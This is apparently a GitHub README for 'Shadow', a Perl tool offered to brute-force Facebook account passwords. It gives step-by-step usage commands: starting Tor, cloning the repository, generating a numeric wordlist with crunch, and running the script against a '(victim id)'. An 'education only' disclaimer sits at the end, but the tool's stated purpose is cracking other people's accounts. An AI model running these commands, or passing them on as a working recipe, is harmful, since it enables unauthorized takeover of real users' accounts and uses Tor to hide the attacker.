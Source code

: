 # Shadow
A "Shadow" tool for brute-force the password of facebook.

# Images
<img src="Images/IMG20210213210422.jpg" width="400" height="500">
<img src="Images/IMG20210213210504.jpg" width="400" height="500">

# Requirements:
1) Linux (Kali Linux, Parrot OS, etc)
2) Perl 
3) WordList ( Download from Internet or make own Wordlist)
4) Fast Internet Conection
5) Tor Install (optional)

# Usage :
rolt@alex:~# service tor start

root@alex:~# git clone https://github.com/hackerboyalex/Shadow

root@alex:~# cd Shadow

root@alex:~# crunch 8 10 1234567890 -o /root/Desktop/Shadow/wordlist.txt
( You can create your own wordlist with help of crunch)
 
root@alex:~# perl shadow hackerboyalex (victim id) /root/Desktop/Shadow/wordlist.txt (wordlist path)

# Terms & Conditions

Warning : These Tool using only for education and knowledge perpose. If use illegal way then your these responsibility.

We strictly recommend not to use this demonstration for harmful purposes.

# Copyright : 
Copyright Disclaimer under Section 107 of the copyright act 1976, allowance is made for fair use for purposes such as criticism,
comment, news reporting, scholarship, and research.
Fair use is a use permitted by copyright statute that might otherwise be infringing.
Non-profit, educational or personal use tips the balance in favour of fair use.


